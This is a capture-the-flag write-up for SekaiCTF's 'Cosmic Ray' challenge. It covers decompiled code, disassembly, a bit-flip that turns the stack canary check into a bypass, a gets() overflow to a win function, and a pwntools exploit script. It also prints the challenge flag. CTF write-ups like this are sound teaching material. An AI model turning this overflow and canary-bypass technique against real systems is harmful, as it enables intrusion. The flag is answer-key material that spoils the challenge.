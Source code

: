 ## Description

- category: binary exploitation
- link: https://ctf.sekai.team/challenges#Cosmic-Ray-40
- difficulty: 1 star (Beginner)

```
Why wait for the universe to send you a cosmic ray when you can do it yourself?
 Well today the wait is over with our brand new cosmic ray launcher 3000 coming
 to a CPU near you!

This technology is still under development, please leave a review when you are 
finished testing.

Author: Rench
```

The binary executable is given. To get the flag, we connect to the remote service, and do the exploit.

## Solve

(I renamed the binary "cosmicray")

First, quick check of compiler options. (Using a python library called pwntools)

```bash
harryfyx@DESKTOP-QADD3OA:/mnt/d/sekaictf2023/cosmic ray/dist$ checksec cosmicray
[*] '/mnt/d/sekaictf2023/cosmic ray/dist/cosmicray'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We find that a stack protector will detect buffer overflows, stack address changes every run, and stack is not executable.

Decompile the binary with Ghidra, we see `main` function (renamed some variables and functions), and `win` function that will print the flag.

```c
undefined8 main(void)

{
  long in_FS_OFFSET;
  longlong user;
  char user2 [40];
  long local_10;
  
  local_10 = *(in_FS_OFFSET + 0x28);
  setbuf(stdout,0x0);
  puts("Welcome to my revolutionary new cosmic ray machine!");
  puts("Give me any address in memory and I\'ll send a cosmic ray through it:");
  __isoc99_scanf("0x%lx",&user);
  getchar();
  cosmic_ray(user);
  puts("Please write a review of your experience today:");
  gets(user2);  // vulnerable!
  if (local_10 != *(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}

void win(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_58,0x40,__stream);
  puts(local_58);
  if (local_10 != *(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Since `gets` can lead to buffer overflow, then we can control the return address to point to the win function. However, the stack canary check will fail if the buffer just overflows.

Luckily we can send a cosmic ray to flip a bit, and skip the stack canary check.

Let's see the disassembly of main from Ghidra

```assembly
                        **************************************************************
                        *                          FUNCTION                          *
                        **************************************************************
                        undefined main()
        undefined         AL:1           <RETURN>
        undefined8        Stack[-0x10]:8 local_10                                XREF[2]:     0040165e(W), 
                                                                                            004016e7(R)  
        undefined1[40]    Stack[-0x38]   user2                                   XREF[1]:     004016d1(*)  
        longlong          Stack[-0x40]:8 user                                    XREF[2]:     00401696(*), 
                                                                                            004016b6(R)  
                        main                                            XREF[5]:     Entry Point(*), 
                                                                                    _start:00401208(*), 
                                                                                    _start:00401208(*), 004021bc, 
                                                                                    004022f0(*)  
00401649 f3 0f 1e fa     ENDBR64
0040164d 55              PUSH       RBP
0040164e 48 89 e5        MOV        RBP,RSP
00401651 48 83 ec 40     SUB        RSP,0x40
00401655 64 48 8b        MOV        RAX,qword ptr FS:[0x28]
            04 25 28 
            00 00 00
0040165e 48 89 45 f8     MOV        qword ptr [RBP + local_10],RAX
00401662 31 c0           XOR        EAX,EAX
00401664 48 8b 05        MOV        RAX,qword ptr [stdout]
            2d 2a 00 00
0040166b be 00 00        MOV        ESI,0x0
            00 00
00401670 48 89 c7        MOV        RDI,RAX
00401673 e8 c8 fa        CALL       libc.so.6::setbuf                                void setbuf(FILE * __stream, cha
            ff ff
00401678 48 8d 05        LEA        RAX,[s_Welcome_to_my_revolutionary_new_c_00402   = "Welcome to my revolutionary n
            31 0a 00 00
0040167f 48 89 c7        MOV        RDI=>s_Welcome_to_my_revolutionary_new_c_00402   = "Welcome to my revolutionary n
00401682 e8 89 fa        CALL       libc.so.6::puts                                  int puts(char * __s)
            ff ff
00401687 48 8d 05        LEA        RAX,[s_Give_me_any_address_in_memory_an_004020   = "Give me any address in memory
            5a 0a 00 00
0040168e 48 89 c7        MOV        RDI=>s_Give_me_any_address_in_memory_an_004020   = "Give me any address in memory
00401691 e8 7a fa        CALL       libc.so.6::puts                                  int puts(char * __s)
            ff ff
00401696 48 8d 45 c8     LEA        RAX=>user,[RBP + -0x38]
0040169a 48 89 c6        MOV        RSI,RAX
0040169d 48 8d 05        LEA        RAX,[s_0x%lx_0040212d]                           = "0x%lx"
            89 0a 00 00
004016a4 48 89 c7        MOV        RDI=>s_0x%lx_0040212d,RAX                        = "0x%lx"
004016a7 b8 00 00        MOV        EAX,0x0
            00 00
004016ac e8 1f fb        CALL       libc.so.6::__isoc99_scanf                        undefined __isoc99_scanf()
            ff ff
004016b1 e8 da fa        CALL       libc.so.6::getchar                               int getchar(void)
            ff ff
004016b6 48 8b 45 c8     MOV        RAX,qword ptr [RBP + user]
004016ba 48 89 c7        MOV        RDI,RAX
004016bd e8 e3 fd        CALL       cosmic_ray                                       undefined cosmic_ray(undefined8 
            ff ff
004016c2 48 8d 05        LEA        RAX,[s_Please_write_a_review_of_your_ex_004021   = "Please write a review of your
            6f 0a 00 00
004016c9 48 89 c7        MOV        RDI=>s_Please_write_a_review_of_your_ex_004021   = "Please write a review of your
004016cc e8 3f fa        CALL       libc.so.6::puts                                  int puts(char * __s)
            ff ff
004016d1 48 8d 45 d0     LEA        RAX=>user2,[RBP + -0x30]
004016d5 48 89 c7        MOV        RDI,RAX
004016d8 b8 00 00        MOV        EAX,0x0
            00 00
004016dd e8 be fa        CALL       libc.so.6::gets                                  char * gets(char * __s)
            ff ff
004016e2 b8 00 00        MOV        EAX,0x0
            00 00
004016e7 48 8b 55 f8     MOV        RDX,qword ptr [RBP + local_10]
004016eb 64 48 2b        SUB        RDX,qword ptr FS:[0x28]
            14 25 28 
            00 00 00
004016f4 74 05           JZ         LAB_004016fb
004016f6 e8 35 fa        CALL       libc.so.6::__stack_chk_fail                      undefined __stack_chk_fail()
            ff ff
                        -- Flow Override: CALL_RETURN (CALL_TERMINATOR)
```

Address `004016f4` has opcode to jump if stack canary checks out. We will make it jump when buffer overflows, since the opcode only differs by 1 bit. 

```
        004016f4 75 05           JNZ        LAB_004016fb
```

So, to sum it up, let's use a python script

```Py
import pwn

elf = pwn.ELF("./cosmicray")
# p = elf.process()
p = pwn.connect('chals.sekai.team', 4077)

pwn.context.binary = elf
pwn.context.log_level = 'debug'

p.recvuntil(b"Give me any address in memory and I'll send a cosmic ray through it:")
p.sendline(b"0x4016f4")

p.recvuntil(b"Enter a bit position to flip (0-7):")
p.sendline(b'7')

p.recvuntil(b'Please write a review of your experience today:')
ret_override = 0x004012d6

payload = b'a' * (40 + 8 + 8) + pwn.p64(ret_override)
p.sendline(payload)
p.recvall()
```

As printed out, the flag is `SEKAI{w0w_pwn_s0_ez_wh3n_I_can_s3nd_a_c05m1c_ray_thru_ur_cpu}`